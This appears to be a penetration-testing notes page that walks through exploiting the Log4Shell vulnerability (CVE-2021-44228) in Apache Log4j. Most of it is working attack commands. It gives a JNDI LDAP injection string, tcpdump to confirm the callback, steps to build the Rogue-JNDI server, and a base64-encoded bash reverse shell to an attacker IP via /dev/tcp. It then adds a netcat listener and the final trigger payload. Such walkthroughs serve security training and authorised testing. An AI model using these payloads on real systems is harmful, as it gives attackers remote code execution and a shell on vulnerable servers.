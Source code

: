 # CVE - Log4Shell

**I**s a critical vulnerability now reported as [_CVE-2021-44228_](https://nvd.nist.gov/vuln/detail/cve-2021-44228) discovered in the Apache _Log4j_ library, widely used for logging in Java-based applications. It allows attackers to execute arbitrary code on a server by injecting a malicious payload into a log message.&#x20;

Here we can find a way to do an attack on a target affected by this vulnerability:

* Send a payload to confirm the server is connecting back

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># Insert this payload on the vulnerable point
</strong><strong>${jndi:ldap://$IP/test} # Specify your IP
</strong><strong>
</strong><strong># Set TCP listener on our machine
</strong>sudo tcpdump -i $interface port $LDAPport # Specify the Network Interface you are using and the port running LDAP which by default is 389

# If it works, we will see a result like this
01:02:56.775423 IP $TargetIP.48214 > $OurIP.ldap: Flags [S], seq 1793598680, win 64240, options [mss 1340,sackOK,TS val 2750652936 ecr 0,nop,wscale 7], length 0
01:02:56.775456 IP $OurIP.ldap > $TargetIP.48214: Flags [R.], seq 0, ack 1793598681, win 0, length 0
</code></pre>

***

* Install necessary Java tools to generate a payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">sudo apt install maven
<strong>sudo apt install openjdk-24-jdk
</strong></code></pre>

***

* Download and build the _Rogue-JNDI_ Java application

{% code overflow="wrap" lineNumbers="true" %}
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd 
mvn package
```
{% endcode %}

***

* Create a payload to use&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP/$port 0>&1' | base64
```
{% endcode %}

{% hint style="info" %}
This example is done with a reverse shell but could be any command desired for the RCE, and we encode the payload to avoid issues with Rogue-JNDI
{% endhint %}

***

* Start the _Rogue-JNDI_ application while passing in the payload

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Use the encoded payload and specify your IP
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,$encPayload}|{base64,-d}|{bash,-i}" --hostname "$IP"

# If it works, we will see a result like this
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.117:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.117:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.117:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.117:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.117:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.117:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.117:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.117:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```
{% endcode %}

***

* (Optional) Set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp 4444
```
{% endcode %}

{% hint style="info" %}
This is done working with the example of the reverse shell
{% endhint %}

***

* Access to the created payload using the vulnerable point

{% code overflow="wrap" lineNumbers="true" %}
```bash
${jndi:ldap://$IP:1389/o=tomcat}
#If successful the command will be executed on the target host
```
{% endcode %}
